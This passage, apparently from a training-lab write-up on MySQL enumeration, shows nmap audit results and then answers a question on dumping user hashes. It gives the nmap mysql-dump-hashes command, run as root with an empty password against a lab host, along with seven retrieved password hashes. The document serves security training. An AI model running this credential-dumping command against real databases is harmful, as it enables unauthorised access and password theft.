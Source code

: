 ```bash
|       6.6: Grant tables => FAIL
|       6.7: Skip merge => FAIL
|       6.8: Skip networking => FAIL
|       6.9: Safe user create => FAIL
|       6.10: Skip symbolic links => FAIL
|     
|     Additional information
|       The audit was performed using the db-account: root
|_      The following admin accounts were excluded from the audit: root,debian-sys-maint
MAC Address: 02:42:C0:0F:38:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.34 seconds
```

> 16. Dump all user hashes using nmap script.

> **Answer:**
>
> Users hashes are:
>
> `debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D`
>
> `filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B`
>
> `ultra:*827EC562775DC9CE458689D36687DCED320F34B0`
>
> `guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646`
>
> `sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0`
>
> `udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9`
>
> `sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14`

```bash
root@attackdefense:~# nmap --script mysql-dump-hashes --script-args "username='root',password=''" -p3306 192.15.56.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-27 16:29 UTC
Nmap scan report for target-1 (192.15.56.3)
Host is up (0.000044s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-dump-hashes: 
|   debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
|   filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   ultra:*827EC562775DC9CE458689D36687DCED320F34B0
|   guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
|   sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
|   udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
|_  sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
MAC Address: 02:42:C0:0F:38:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```
